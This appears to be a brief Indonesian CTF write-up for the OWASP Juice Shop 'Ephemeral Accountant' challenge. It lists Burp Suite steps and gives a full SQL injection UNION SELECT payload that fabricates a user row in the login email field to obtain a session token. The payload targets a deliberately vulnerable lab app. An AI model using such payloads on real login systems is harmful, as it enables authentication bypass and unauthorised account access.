


# Ephemeral Accountant - OWASP Juice Shop

### Detail Informasi
---
Kategori = Injection☠️

[Ephemeral Accountant](http://localhost:3000/#/score-board?categories=Injection)

## Langkah-langkah pengerjaan
1. Mendapatkan schema query untuk **create User**

2. Menemukan endpoint dari user login di burp suite dan send to repeater

3. Pada bagian repeater bagian isi email diganti dengan payload yang sesuai dengan schema user-nya untuk memunculkan token
~~~
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, 'localhost' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2024-08-30 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
~~~

 